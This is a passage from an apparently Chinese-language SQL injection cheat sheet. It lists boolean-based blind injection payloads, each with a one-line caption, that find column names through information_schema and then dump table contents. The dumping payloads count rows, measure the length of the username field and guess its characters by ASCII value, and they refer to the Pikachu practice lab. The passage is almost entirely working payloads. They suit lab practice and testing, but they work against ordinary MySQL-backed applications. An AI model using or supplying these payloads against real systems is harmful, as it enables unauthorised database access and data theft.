 判断当前数据库中指定数据表中第一个字段名的字节长度

```
' AND (SELECT LENGTH(column_name) FROM information_schema.COLUMNS WHERE table_schema=DATABASE() AND table_name='users' LIMIT 0, 1) = 2 -- 
```

判断指定数据库中指定数据表中第一个字段名的第一个字符

```
' AND ASCII (SUBSTR((SELECT column_name FROM information_schema.COLUMNS WHERE table_schema='pikachu' AND table_name='users' LIMIT 0, 1), 1, 1)) = 105 -- 
```

判断当前数据库中指定数据表中第一个字段名的第一个字符

```
' AND ASCII (SUBSTR((SELECT column_name FROM information_schema.COLUMNS WHERE table_schema=DATABASE() AND table_name='users' LIMIT 0, 1), 1, 1)) = 105 -- 
```

### 7.5. Dump

判断指定数据库中指定数据表中指定字段中数据的个数

```
' AND (SELECT COUNT(*) FROM pikachu.users) = 3 -- 
```

判断当前数据库中指定数据表中指定字段中数据的个数

```
' AND (SELECT COUNT(*) FROM users) = 3 -- 
```

判断指定数据库中指定数据表中第一个字段中第一个数据的字节长度

```
' AND (SELECT LENGTH(username) FROM pikachu.users LIMIT 0, 1) = 5 -- 
```

判断当前数据库中指定数据表中第一个字段中第一个数据的字节长度

```
' AND (SELECT LENGTH(username) FROM users LIMIT 0, 1) = 5 -- 
```

判断指定数据库中指定数据表中第一个字段中第一个数据的第一个字符

```
' AND ASCII (SUBSTR((SELECT username FROM pikachu.users LIMIT 0, 1), 1, 1)) = 97 -- 
```

判断当前数据库中指定数据表中第一个字段中第一个数据的第一个字符

```
' AND ASCII (SUBSTR((SELECT username FROM users LIMIT 0, 1), 1, 1)) = 97 -- 
```

## 8. Time

> 通用
